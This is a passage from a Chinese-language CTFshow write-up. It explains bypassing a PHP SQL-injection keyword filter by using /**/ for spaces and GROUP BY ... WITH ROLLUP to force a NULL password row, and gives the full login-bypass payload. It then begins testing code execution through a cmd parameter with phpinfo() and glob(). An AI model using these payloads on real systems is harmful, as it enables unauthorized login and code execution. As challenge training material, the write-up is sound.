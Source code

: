 
> `$regex = "/(select|from|where|join|sleep|and|\s|union|,)/i";`
> 从源码中可以得知几乎把注入用到的关键词过滤的差不多了。
> 如果只有上面这一条现在可以采用双写绕过，但是加上下面这点，使得无法双写绕过
>
> ```php
> if(strlen($username)!=strlen(replaceSpecialChar($username))){
> 	die("sql inject error");
> }
> ```

介绍一下两个sql语句：

1. group by：对进行查询的结果进行分组。group by后跟什么，就按什么分组

2. with rollup：group by 后可以跟with rollup，表示在进行分组统计的基础上再次进行汇总统计。

   看看示例图片（结果中将会多出一行，其中password列为null，count（*）为统计和。）

   ![4](./CTFshow.assets/4.png)

过滤空格的话用/**/进行绕过就行

pyload: `admin'/**/or/**/1=1/**/group/**/by/**/password/**/with/**/rollup/**/# `

```php
执行的完整语句为
$sql = "select * from user where username = 'admin' or 1=1 group by password with rollup #'"
```

在用户名框里输入这个，密码框里为空即可。因为加入with rollup后 password有一行为NULL，我们只要输入空密码使得（`NULL==NULL`）即可满足`$password==$row['password']`

这样就能登录成功了。即可获得flag





## web12 利用代码执行漏洞读取敏感文件（待解决）

看到cmd，尝试`/?cmd=phpinfo();`

出现回显，说明存在代码执行漏洞，采用glob通配符命令得到文件名

> php的函数`glob()`; glob() 函数返回匹配指定模式的文件名或目录。
> 该函数返回一个包含有匹配文件/目录的数组。如果失败则返回 FALSE。
>
>  举个例子:
>  `glob("*") `匹配任意文件
>  `glob("*.txt")`匹配以txt为后缀的文件
